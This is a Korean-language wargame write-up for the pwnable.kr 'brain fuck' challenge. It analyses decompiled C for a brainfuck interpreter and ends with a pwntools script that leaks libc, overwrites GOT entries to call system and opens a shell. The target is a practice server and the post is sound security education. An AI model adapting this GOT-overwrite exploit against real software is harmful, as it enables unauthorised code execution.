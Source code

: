 ```yaml
---
layout: post
date: 2023-01-15
title: "pwnable.kr brain fuck write-up"
tags: [pwnable, ]
categories: [wargame, pwnable.kr, ]
---
```




## 소스코드 분석
---

{% raw %}
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t i; // [esp+28h] [ebp-40Ch]
  char input[1024]; // [esp+2Ch] [ebp-408h] BYREF
  unsigned int v6; // [esp+42Ch] [ebp-8h]

  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(input, 0, sizeof(input));
  fgets(input, 1024, stdin);
  for ( i = 0; i < strlen(input); ++i )
    do_brainfuck(input[i]);
  return 0;
}
```
{% endraw %}



{% raw %}
```c
int __cdecl do_brainfuck(char input)
{
  int result; // eax
  _BYTE *v2; // ebx

  result = input - 43;
  switch ( input )
  {
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(char *)p);
      break;
    case '<':
      result = --p;
      break;
    case '>':
      result = ++p;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```
{% endraw %}


brainfuck 언어에서 `[`, `]` 명령어가 제외된 것을 확인할 수 있다.<br>
바이너리 안에서 포인터 값을 조작하며 쉘을 획득할 수 있을 것 같다.

명령어에 대한 설명은 다음과 같다.

| 문자 | 의미 |
|:----|:----|
| `>` | 포인터 증가 |
| `<` | 포인터 감소 |
| `+` | 포인터가 가리키는 바이트의 값 증가 |
| `-` | 포인터가 가리키는 바이트의 값 감소 |
| `.` | 포인터가 가리키는 바이트의 값을 ASCII 문자로 출력 |
| `,` | 포인터가 가리키는 바이트에 입력받은 문자의 ASCII 값을 넣음 |
| `[` | 포인터가 가리키는 바이트의 값이 0이면 짝이 되는 뒤쪽의 `]`로 이동 |
| `]` | 포인터가 가리키는 바이트의 값이 0이 아니면 짝이 되는 앞쪽의 `[`로 이동 |

_출처: [위키백과](https://ko.wikipedia.org/wiki/Brainfuck)_


## 익스플로잇
---

1024 바이트만 입력할 수 있기 때문에 포인터 값을 조작할 수 있는 범위내에서 조작해야 한다.


### 시나리오
1. `system` 함수의 실제 주소를 구한다.
2. `fgets` -> `system` got overwrite
3. `memset` -> `gets` got overwrite
4. `putchar` -> `main` got overwrite
5. `putchar`를 통해 `main` 함수를 호출하여 쉘을 획득한다.

`getchar` 함수로 하위 바이트를 조작하며 overwrite를 진행하였다.

`p`가 가리키는 값을 `p`로 변경하면 `getchar` 함수를 통해 하위 바이트를 쉽게 조작할 수 있다.


{% raw %}
```python
#bf.py
from pwn import *
# context.log_level = 'debug'

# p = process('./bf')
p = remote('pwnable.kr', 9001)
e = ELF('./bf')
libc = e.libc

payload = '<' * 0x20
payload += ',.>.>.>.'
payload += '>' * 0x65
payload += ',,>,>,>,'
payload += '>' * 0x6d
payload += ',,>,>,>,'
payload += '>' * 0x51
payload += ',,>,>,>,'
payload += '.'

p.sendlineafter(']\n', payload)

p.send('\x18')
puts_addr = u32(p.recvuntil('\xf7'))
libc_base = puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
gets_addr = libc_base + libc.sym['gets']

log.info('puts: ' + hex(puts_addr))
log.info('libc_base: ' + hex(libc_base))

p.send('\x10')
p.send(p32(system_addr))

p.send('\x2c')
p.send(p32(gets_addr))

p.send('\x30')
p.send(p32(e.sym['main']))

p.sendlineafter(']\n', '/bin/sh')

p.interactive()
```
{% endraw %}




![0](/assets/img/2023-01-15-pwnable.kr-brain-fuck-write-up.md/0.png)




쉘을 획득했다.

